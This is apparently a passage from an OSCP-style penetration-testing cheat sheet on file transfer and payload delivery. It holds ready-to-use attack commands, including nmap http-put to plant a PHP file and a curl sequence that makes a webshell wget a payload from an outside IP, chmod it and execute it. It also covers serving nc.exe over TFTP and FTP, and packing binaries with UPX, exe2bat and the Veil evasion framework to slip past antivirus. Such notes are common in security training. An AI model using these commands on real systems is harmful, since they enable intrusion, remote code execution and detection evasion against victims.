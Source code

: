 -   Mounting File Shares

    -   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

-   Uploading Files
    -------------------------------------------------------------------------------------------------------------

    -   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    -   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec&gt;tftp -i $ip get nc.exe

    -   FTP  
        apt-get update && apt-get install pure-ftpd  
          
        \#!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/  
          
        /etc/init.d/pure-ftpd restart

-   Packing Files

    -   Ultimate Packer for eXecutables  
        upx -9 nc.exe

    -   exe2bat - Converts EXE to a text file that can be copied and
        pasted  
        locate exe2bat  
        wine exe2bat.exe nc.exe nc.txt

    -   Veil - Evasion Framework -
        https://github.com/Veil-Framework/Veil-Evasion  
        apt-get -y install git  
        git clone https://github.com/Veil-Framework/Veil-Evasion.git  
        cd Veil-Evasion/  
        cd setup  
        setup.sh -c
